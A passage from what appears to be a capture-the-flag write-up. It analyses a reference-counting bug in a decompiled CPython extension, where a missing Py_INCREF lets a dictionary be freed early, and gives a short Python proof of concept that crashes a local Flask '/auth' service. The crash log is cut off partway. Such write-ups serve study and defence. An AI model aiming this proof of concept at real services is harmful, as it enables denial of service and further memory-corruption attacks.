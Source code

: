 Python uses [reference counting](https://docs.python.org/2.7/c-api/refcounting.html) in addition to garbage collection. Reference counting is a way for the Python runtime to determine when it's safe to deallocate objects. Once an object's reference count hits 0, the object’s type’s deallocation function is invoked. These counts are increased by the `Py_INCREF` macro, and decreased by the `Py_DECREF` macro. 

In our case, `*data = *data + 1;` is `Py_INCREF` increasing the number of references to our `data` dictionary, since it's being put into the `return_list` variable, and so it shouldn't be deallocated. However, in the other code path there is no `Py_INCREF`! Afterwards, the code reaches this:
{% highlight c %}
*data = *data + -1;
if (*data == 0) {
  (**(code **)(data[1] + 0x30))(data);
}
{% endhighlight %}
Can you guess what that is? It's `Py_DECREF`. It's decreasing the number of references (since this function is returning and no longer needs to reference that variable), and if the number of references is `0`, it calls `(**(code **)(data[1] + 0x30))(data);` We know `data` is a dictionary, which is `PyDict_Type` in CPython. By looking at the [source](https://github.com/python/cpython/blob/a8b89cd0611f2732491a72b37651f110fb0ed8ec/Objects/dictobject.c#L3194), we can see that `0x30` into the type structure is the deallocator, `dict_dealloc`, just as we'd expect. And that's exactly what will happen if we go down this code path. There is no `Py_INCREF`, so when `Py_DECREF` is called, the reference count hits `0`, and what we've passed gets deallocated.

Using this, we can build a quick POC:
{% highlight python %}
import requests

HOST = 'localhost'
PORT = '5000'
BASE_URL = 'http://' + HOST + ':' + PORT

init = requests.get(BASE_URL)
cookies = init.cookies.get_dict()

for i in range(10):
    exploit = requests.post(
            BASE_URL + '/auth', 
            json={"data":{"username": "aaa", "password": "aaa"}},
            headers={'Content-Type': 'application/json'}, 
            cookies=cookies
    )

exploit = requests.post(
        BASE_URL + '/auth', 
        json={"data":{}},
        headers={'Content-Type': 'application/json'}, 
        cookies=cookies
)
{% endhighlight %}
and we successfully get a crash:
{% highlight shell %}
➜  python auth.py
 * Serving Flask app "auth" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
127.0.0.1 - - [04/Jun/2019 20:35:26] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -